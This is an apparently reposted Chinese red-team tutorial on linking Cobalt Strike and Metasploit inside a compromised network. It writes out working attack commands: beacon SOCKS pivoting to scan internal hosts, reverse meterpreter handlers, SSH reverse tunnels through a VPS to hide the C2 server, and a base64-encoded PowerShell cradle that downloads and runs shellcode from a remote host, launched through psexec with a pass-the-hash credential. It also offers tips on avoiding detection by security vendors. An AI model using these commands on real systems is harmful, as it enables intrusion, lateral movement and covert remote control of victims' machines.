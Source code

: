 # CobaltStrike 与 Metasploit 实战联动

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/35.html](http://book.iwonder.run/Tools/Cobalt Strike/35.html)

## 0x01 前言

> 关于 cobalstrike[以下全部简称"cs"] 和 Metasploit [以下全部简称 "msf"] 想必此处就不用再多废话了,总之,两者各有所长,比如,前者更适合做个稳控平台,后者则更擅长各类内网搜集和漏洞利用,而我们今天的目的就是为了把两者的优点尽可能的灵活结合起来进行运用,让各自相互依托,去做自己最擅长的事情,废话不多讲,来看实际操作

## 0x02 通过 beacon 内置的 socks 功能将本地 Msf 直接代入目标内网进行操作

> 首先,到已控目标内网机器的 beacon shell 下把 socks 起起来,[ 注: 今天此处所演示的,全部都是在 system 权限进行操作 ]

```
beacon> getuid
beacon> socks 1080 
```

![image](img/ce4966b15a54e968b2d1d4b1e20fa1d4.png)

> 接着,点开 cs 菜单找到"Proxy Pivots"复制生成的 msf 代理链接

![image](img/7087f3b8079598de7c71fe088a6315be.png)

> 本地启动 msf,挂着上面生成的代理链接,即可直接对目标内网进行各种探测,实际效果如下

```
msf > setg Proxies socks4:138.128.218.66:1080 意思就是让本地的 msf 走上面 cs 的 socks 代理
msf > setg ReverseAllowProxy true 建双向通道
msf > use auxiliary/scanner/smb/smb_version 拿着 msf 中的各类探测模块对目标内网进行正常探测即可,比如,识别目标内网所有 windows 机器的详细系统版本,机器名和所在域
msf > set rhosts 172.17.180.0/24 指定 CIDR 格式的目标内网段,掩码可根据实际情况给的大一点,比如,0/20,0/16...
msf > set threads 1 线程不易给的太大,可根据目标实际情况,控制在 10 以内
msf > run 
```

![image](img/1c576cd8f1d87cbabb0d4b2de68fa233.png)

> 利用这种方式可以极大的帮我们解决要自己往上传工具的不便及尴尬

## 0x03 尝试借助 CobaltStrike 的外部 tcp 监听器通过 ssh 隧道直接派生一个 meterpreter 的 shell 到本地

> 先在 cs 上创建一个 tcp 的外部监听器,回连端口设为 8080

![image](img/ab2ec50348f08219f07a90deb9abf6af.png)

> 接着,到本地机器把 msf 起起来,并创建如下监听器

```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp 注: 此处的协议格式务必要和上面 cs 外部监听器的协议对应,不然 meter 是无法正常回连的
msf > set lhost 192.168.3.137
msf > set lport 8080
msf > exploit 
```

![image](img/20959d357d2591441e4282e4639516f8.png)

> 随后,回到自己的 vps 机器上编辑 sshd 配置,开启 ssh 转发功能,重启 ssh 服务,这是所有使用 ssh 隧道转发前的必备操作,后续不再啰嗦

```
# vi /etc/ssh/sshd_config
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
PasswordAuthentication yes
# systemctl restart sshd.service 
```

> 再次回到自己本地的 linux 中并通过 ssh 隧道做好如下转发,意思就是通过 20.37.125.56 这台机器把来自外部的 8080 端口流量全部转到我本地 192.168.3.137 的 8080 端口上,而本地 192.168.3.137 的 8080 端口上跑的又正好是 meter 的监听器,所以,最终才会造成 meterpreter 本地上线的效果

```
# ssh -C -f -N -g -R 0.0.0.0:8080:192.168.3.137:8080 root@20.37.125.56 -p 22 
```

![image](img/6e86d5daccf4b775ea09b069473637af.png)

> 隧道建立之后,习惯性的到 vps 上去看一眼,刚才通过隧道监听的 8080 端口到底有没有起来,确实起起来了才说明隧道才是通的,另外,监听的端口不能和 vps 机器上的现有端口冲突,否则隧道是建不成功的

```
# netstat -tulnp | grep '8080' 
```

![image](img/153e958059b0ea689952e11b315baabf.png)

> 最终,回到 cs 上选择目标内网指定机器的 beacon shell 点击"Spawn"派生,再选择刚在上面创建好的 tcp 的外部监听器,相应目标机器的 meterpreter 就会被直接弹到本地,如下,当然,你也可以批量选择进行操作

![image](img/45ed5c89ad1900fa1e43bf2ff9c2482b.png)

![image](img/ffd669f902973cca377228ac2e1b90a9.png)

![image](img/b9b5eba59b43b2d45811ddc5bbb544aa.png)

## 0x04 尝试利用 msf 的各类 exp 模块直接弹回一个 beacon shell

> 如下,先准备好一段 64 位的 shellcode,如下

![image](img/813a36b2a1eb640b5c0b2410c3c0c00a.png)

> 而后,再对 Invoke-Shellcode.ps1 脚本中的 64 位 shellcode 进行替换

![image](img/bafb7bd288d379d81e7a3b4889d32a92.png)

> 因为后续需要利用 powershell 远程加载执行 shellcode,所以为了方便执行,得事先把 powershell 加载语句编码整理下,如下

```
PS C:\> $text = "IEX (New-Object Net.WebClient).DownloadString('https://*/master/Invoke-Shellcode.ps1'); Invoke-demo -Force"
PS C:\> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS C:\> $EncodedText =[Convert]::ToBase64String($Bytes)
PS C:\> $EncodedText > bs64.txt 
```

![image](img/fbb5511d8f26b020a77368ece8374b51.png)

> 比如我们现在通过其它方式拿到了目标内网的某台 windows 机器的本地管理员密码 hash,就可以尝试利用 psexec_command 模块借助这种方式来直接反弹指定目标机器的 beacon shell,也算一种简单的横向方式

```
msf > use auxiliary/admin/smb/psexec_command
msf > set rhost 192.168.3.11
msf > set smbuser administrator
msf > set smbpass AAD3B435B51404EEAAD3B435B51404EE:CCEF208C6485269C20DB2CAD21734FE7
msf > set command powershell -exec bypass -encodedcommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZ*
msf > set threads 1
msf > run 此处不用管它服务到底没有启动成功 
```

![image](img/6e65f415a2184555552e96450b8068d1.png)

> 最终,成功上线效果

![image](img/744ebf164141bb9f25bb4e0a83734270.png)

## 0x05 灵活利用 ssh 隧道深度隐藏 C2 [ becon 本地上线 ,适合临时渗透用 ]

> 首先,创建一个普通的 http 反向 beacon 监听器,并用该监听器生成一个 64 位的 exe payload,随后再立即删除该监听器,具体如下

![image](img/a9b98e9e6e4860bb186cbfaa2425e100.png)

> 而后,回到自己本地的 linux 中,开始尝试和自己的 vps 建立 ssh 隧道,注意,此处用于建立隧道的这台 vps 和我们 cs 团队服务器所在的 vps 不是同一台机器[实际中有条件的情况下,也建议不要用同一台],转发和上面的那个 ssh 隧道差不太多,只不过这里是通过 20.37.125.56 这台机器把外部的 8080 端口都转到了本地 192.168.3.137 的 80 端口上,而这个 80 端口上跑的也就是我们下面创建的那个 inside 监听器,所以最终才会造成 beacon 的本地上线

```
# ssh -C -f -N -g -R 0.0.0.0:8080:192.168.3.137:80 root@20.37.125.56 -p 22 
```

![image](img/d8dce3c6f37651a29d5ac56a590605c4.png)

> 此处还是习惯性的到建立隧道的那台 vps 上,看看刚刚隧道监听的端口有没有起来

![image](img/11ff2cbc46428eaa818096e2fd3448a3.png)

> 紧接着,再次回到自己本地的 linux 中,启动 cs 团队服务器和客户端

```
# ./teamserver 192.168.3.137 admin
# ./cobaltstrike 
```

![image](img/df744e1fb17a91fafe2d2d29b4699ee7.png)

> 继续创建 http 反向 beacon 监听器,注意,此处 inside 监听器的类型和上面 outside 监听器的类型务必要保持完全一致,不然,beacon 是弹不回来的

![image](img/795350a77e0c3993a984e11bf5c2b0b3.png)

> 最后,把上面那个用 outside 监听器创建的 exe payload 丢到目标机器上去执行,实现的最终效果就是把来自公网的 beacon shell 通过 ssh 隧道直接弹到了本地,避免了直接把 cs 团队服务器暴露在公网

![image](img/7bb07ea7c9e70a9ba1a56b882a0652fa.png)

## 小结

> 小结: 以上每种方式其实都对应的有特定的渗透场景,至于实战中如何灵活配合利用,就要看弟兄们自己的实际需求了,另外多说一点,似乎很多人都在以讹传讹,觉得现在 msf 完全没有任何用武之地,其实,不然,当然啦,如果你就只想用它的各类 exp 和 payload 模块,对现如今的实战场景确实没啥卵用[如果你就不做任何处理直接默认用的话],也不用想了,因为各类传统监控和杀软早都已围追堵截,不过,我想说的是,你大可以不必用这些大家天天都死死盯着的东西,比如,某些内网探测模块一直都很好用呀,而且控制的好,动静儿也并不会非常大,重要的是,各个厂商也几乎都不怎么关注这些无关痛痒的辅助模块,关注更多的还是那堆致命的 exp 和 payload 的模块,所以,自己也经常强调,工具是死的,人是活的,关于 Cs 和 msf 联动配合利用方式还远不止这些,来日方长,我们后续再慢慢说,考虑到文章篇幅,有些地方说的并不是非常细致,弟兄们有任何问题,随时反馈就好,最后,祝好运

